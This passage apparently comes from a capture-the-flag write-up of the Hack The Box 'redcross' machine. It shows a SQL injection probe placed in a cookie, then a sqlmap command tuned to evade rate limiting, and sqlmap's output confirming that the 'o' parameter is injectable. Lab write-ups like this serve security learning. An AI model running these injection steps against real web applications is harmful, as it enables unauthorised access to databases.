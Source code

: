 Example:

```
Cookie: domain=admin; lang=EN_US; PHPSESSID=8e2u3570ceoa9vk2vofvgnibv3; LIMIT=10'

DEBUG INFO: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1
```

Our best bet is to try to exploit the `o` parameter as exploiting the `LIMIT` cookie will be more difficult since we can't do `UNION SELECT` after a `LIMIT` statement. We might be able to do something with `PROCEDURE ANALYSE` but since the box is rated medium/hard, I didn't think this was going to be it.

The first thing we notice with sqlmap is it kills the webserver pretty quickly, so I assumed there is some kind of WAF rate-limiting the connections to the server. If we wait a bit, we are able to access the server again.

To use sqlmap, we will need to change the `delay` parameter to 1 second. It takes a long time but sqlmap eventually find the injection point:

```
root@ragingunicorn:~# sqlmap -r login.req --risk=3 -p o --dbms=mysql --random-agent --delay=1 --technique=UE
...
[13:00:14] [INFO] parsing HTTP request from 'login.req'
[13:00:14] [INFO] fetched random HTTP User-Agent header value 'Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; de) Opera 8.02' from file '/usr/share/sqlmap/txt/user-agents.txt'
[13:00:14] [INFO] testing connection to the target URL
sqlmap got a 301 redirect to 'https://intra.redcross.htb/?o=2&page=app'. Do you want to follow? [Y/n] y
[13:00:17] [INFO] heuristic (basic) test shows that GET parameter 'o' might be injectable (possible DBMS: 'MySQL')
[13:00:18] [INFO] heuristic (XSS) test shows that GET parameter 'o' might be vulnerable to cross-site scripting (XSS) attacks
[13:00:18] [INFO] testing for SQL injection on GET parameter 'o'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) value? [Y/n] 
[13:00:19] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[13:00:20] [WARNING] reflective value(s) found and filtering out
[13:01:17] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[13:02:14] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[13:03:11] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[13:04:08] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[13:05:04] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[13:06:01] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[13:06:20] [INFO] GET parameter 'o' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[13:06:20] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[13:06:20] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[13:06:20] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[13:06:42] [INFO] target URL appears to be UNION injectable with 4 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 
[14:12:39] [INFO] testing 'MySQL UNION query (63) - 21 to 40 columns'
[14:13:03] [INFO] testing 'MySQL UNION query (63) - 41 to 60 columns'
[14:13:28] [INFO] testing 'MySQL UNION query (63) - 61 to 80 columns'
[14:13:53] [INFO] testing 'MySQL UNION query (63) - 81 to 100 columns'
[14:14:19] [WARNING] parameter length constraining mechanism detected (e.g. Suhosin patch). Potential problems in enumeration phase can be expected
GET parameter 'o' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
```
